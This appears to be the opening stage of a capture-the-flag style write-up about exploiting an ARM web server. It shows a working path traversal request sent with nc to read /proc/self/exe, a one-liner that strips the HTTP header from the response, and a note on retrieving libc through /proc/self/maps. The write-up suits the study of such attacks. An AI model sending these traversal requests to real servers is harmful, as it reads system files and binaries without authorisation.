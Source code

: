 #Stage 1

There's a path traversal bug in the code that handles GET requests.
Abusing this, the binary can be obtained:

```bash
printf "GET ../../../../../proc/self/exe HTTP/1.1\r\n\r\n" | nc $ip 80 > response
```

Afterwards the HTTP header needs to be stripped:

```bash
dd if=response of=websrv bs=1 skip=$(python -c "print(open('response', 'rb').read().index(b'\x7fELF'))")
```

file should now report an elf file:

```bash
$ file websrv 
websrv: ELF 32-bit LSB shared object, ARM, EABI5 version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux-armhf.so.3, for GNU/Linux 2.6.26, BuildID[sha1]=8f6a73fa2b913d8a5d7c9ce5797188b90457d0e5, stripped
```

The same can be done to retrieve the libc in use on the target system (get it's path through /proc/self/maps).

At this point it's time for some reverse engineering.
